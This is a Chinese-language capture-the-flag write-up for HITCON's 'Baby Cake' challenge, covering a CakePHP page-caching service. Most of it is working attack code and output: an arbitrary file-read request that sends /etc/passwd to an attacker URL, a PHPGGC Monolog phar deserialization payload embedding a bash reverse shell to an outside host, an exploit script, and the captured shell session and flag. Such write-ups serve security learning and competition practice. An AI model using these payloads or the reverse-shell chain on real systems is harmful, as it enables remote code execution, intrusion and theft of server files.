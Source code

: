 # Baby Cake

## 題目

題目是一個網站，可以輸入url

他會把該url的頁面cache起來

從source code可以看到他是用Cakephp寫的

主要邏輯都在`PagesController`

可以發現只有`get` method會去cache

然後scheme限制只能`http`, `https`

## 洞

從source code慢慢往下跟，可以發現

`httpclient(Client)` -> `get()` -> `_doRequest()` -> `_createRequest()` -> `new Request()` -> `body()` -> `addMany()` -> `add()` -> `addFile()` -> `file_get_contents($value)`

這邊`$value`是我們可以控制的，他來源是`getQuery('data')`

只需要滿足`(is_string($value) && strlen($value) && $value[0] === '@')`即可走到`file_get_contents()`

所以利用方式就是

POST `data[]="@filename"`，這個filename就會丟進`file_get_contents`

並且他會用`fopen`將此檔案內容送到我們指定的`url`

所以一個簡單的任意讀檔exploit如下:

```
import requests
s.post('http://13.230.134.135/', params={'url': 'http://yourip:yourport', 'data[]': '@/etc/passwd'})
```

可是這題要RCE，單純只讀檔很難RCE

後來比賽結束前才想到，`file_get_contents()`可以塞php wrapper，而body.cache又可以當作上傳檔案

那不就可以用經典的`phar://`去unserailize!

接著只需要構造pop chain即可

可以從phpggc看到

```
Monolog/RCE1          1.18 <= 1.23      rce              __destruct
```

而從`composer.json`也可以看到`"monolog/monolog": "^1.23"`，版本剛好在範圍內!

所以就直接構造payload:

```php
<?php

namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {
        $code = "bash -c 'bash -i >& /dev/tcp/kaibro.tw/10001 0>&1'";

        @unlink('exp.phar');
        $p = new \Phar('exp.phar');
        $p->startBuffering();
        $p->setStub("<?php __HALT_COMPILER();?>");
        $p->addFromString("test.txt", "test");
        $p->setMetadata(new \Monolog\Handler\SyslogUdpHandler(new \Monolog\Handler\BufferHandler(['current', 'system'],[$code, 'level' => null])));
        $p->stopBuffering();

    }
}

```

跑完會生成`exp.phar`

上傳到自己Server


exp.py:

```python
import requests                                                                                                        
import sys
import hashlib

m = hashlib.md5()
ip = '1.2.3.4'

r = requests.get('http://13.230.134.135/?url='+sys.argv[1])

s = requests.session()
m.update(sys.argv[1])
pay = "phar:///var/www/html/tmp/cache/mycache/"+ip+"/"+m.hexdigest()+"/body.cache"
print pay
print(s.post('http://13.230.134.135/', params={'url': 'http://kaibro.tw:6666/', 'data[]': '@'+pay}))

```

接著跑`python exp.py http://kaibro.tw/exp.phar`即可reverse shell

```
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::10001
Ncat: Listening on 0.0.0.0:10001
Ncat: Connection from 13.230.134.135.
Ncat: Connection from 13.230.134.135:39072.
bash: cannot set terminal process group (7953): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-172-31-24-186:/$ ls -a
ls -a
.
..
bin
boot
dev
etc
flag
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
read_flag
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
www
```

`hitcon{smart_implementation_of_CURLOPT_SAFE_UPLOAD><}`
